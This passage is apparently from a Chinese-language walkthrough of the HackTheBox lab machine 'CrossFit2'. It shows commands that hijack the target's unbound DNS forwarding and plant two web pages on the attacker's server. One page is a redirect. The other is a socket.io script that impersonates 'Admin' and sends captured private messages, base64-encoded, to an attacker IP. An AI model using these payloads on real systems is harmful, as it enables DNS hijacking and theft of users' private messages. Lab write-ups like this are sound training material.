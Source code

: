 之前下载的unbound的配置文件unbound.conf如下：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175829.png)修改为自己的路径：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175830.png)在kali的apache2网页目录下写入如下2个文件：

  * 

    
    
    echo "<html><head></head><body><script>window.location=\"http://xcrossfit.htb/go.html\";</script><p>Redirecting ...</p></body></html>" > /var/www/html/password-reset.php

![]()

  * 

    
    
    echo "<html><head><script src=\"http://crossfit-club.htb/socket.io/socket.io.js\"></script><script>var s = io.connect(\"http://crossfit-club.htb\");s.emit(\"user_join\", { username : \"Admin\" });s.on(\"private_recv\", (d) => {var xhr = new XMLHttpRequest();xhr.open(\"GET\", \"http://10.10.16.9/get.php?s=\" + btoa(JSON.stringify(d)), true);xhr.send();});</script></head><body><p>Getting data ...</p></body></html>" > /var/www/html/go.html

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175831.png)开启apache2服务；

  * 

    
    
    service apache2 start

访问测试下：

![]()

没问题，下面开启DNS服务；

unbound-control的基本命令格式：

  * 

    
    
    unbound-control -c my_unbound.conf -s 10.10.10.232@8953 forward_add +i some.attacker.htb. @53

在kali终端里运行：

  *   * 

    
    
    unbound-control -c ./unbound.conf -s 10.10.10.232@8953 forward_add +i xemployees.crossfit.htb. 10.10.16.14@53; sleep 2;unbound-control -c ./unbound.conf -s 10.10.10.232@8953 forward_add +i xcrossfit.htb. 10.10.16.14@53

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811175833.png)

在hosts里把这两个域名也加上；

> 10.10.10.232 crossfit.htb employees.crossfit.htb gym.crossfit.htb crossfit-
> club.htb xcrossfit.htb xemployees.crossfit.htb
